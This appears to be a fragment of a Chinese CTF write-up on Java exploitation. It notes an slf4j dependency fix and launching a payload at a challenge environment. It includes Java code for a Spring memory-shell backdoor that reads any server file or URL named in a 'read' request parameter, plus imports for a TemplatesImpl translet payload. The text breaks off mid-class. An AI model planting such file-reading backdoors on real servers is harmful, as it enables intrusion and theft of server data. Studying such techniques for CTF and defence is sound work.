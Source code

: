 ##### 在这里也报了很多错误

比如slf4j，很多次了都是报这个错误，以前也有(导入这个依赖即可)

```java
<dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-api</artifactId>
            <version>1.7.22</version>
        </dependency>
```

![image-20231118175654746](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231118175654746.png)

首先先修改属性的值，然后打上面的payload

![image-20231118180434057](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231118180434057.png)

开始直接打题目的环境

![image-20231118180955095](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231118180955095.png)

 本来在服务器搭建的好好的，但就是死活打不上去，看报错日志

![image-20231118183101941](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231118183101941.png)

真的烦搭建环境！！！！

#### springboot2.6以后RequestMappingInfo的初始化构造发生了一些变化

读文件(read=file:.)

 ```java
 String code = request.getParameter("read");
 java.io.PrintWriter writer = response.getWriter();
 String urlContent = "";
 URL url = new URL(code);
 BufferedReader in = new BufferedReader(new InputStreamReader(url.openStream()));
 String inputLine = "";
 while ((inputLine = in.readLine()) != null) {
     urlContent = urlContent + inputLine + "\n";
 }
 in.close();
 writer.println(urlContent);
 writer.flush();
 writer.close();
 ```



```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.PrintWriter;
```